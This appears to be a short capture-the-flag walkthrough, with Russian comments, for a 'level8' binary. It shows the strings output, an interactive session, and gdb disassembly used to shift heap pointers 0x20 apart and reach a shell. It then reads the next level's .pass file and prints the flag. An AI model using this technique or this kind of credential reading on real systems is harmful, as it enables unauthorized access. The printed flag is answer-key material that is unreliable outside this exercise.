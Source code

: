 $> strings level8 | less

[...]
%p, %p
auth
reset
service
login
/bin/sh
Password:
[...]

# видим несколько интересных строк, попробуем их ввести

$> ./level8
(nil), (nil)
> auth
0x804a008, (nil)
> service
0x804a008, 0x804a018
> login
Password:
> auth
0x804a028, 0x804a018
> auth
0x804a038, 0x804a018

# когда мы пишем "auth" и "service", два адреса обновляются на 0x10 от последнего записанного адреса
# Посмотрим, сможем ли мы найти больше с помощью gdb

gdb> disass main
[...]
   0x08048625 <+193>:	cmp    eax,0x1e
[...]

# Мы видим, что cmp сделан со значением 0x1e == 31
# Посмотрим, что будет, если мы сделаем разницу между адресами 'auth' и 'service' 0x20 == 32

$> ./level8

> service
0x804a008, 0x804a018
> service
0x804a008, 0x804a028
> login

$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a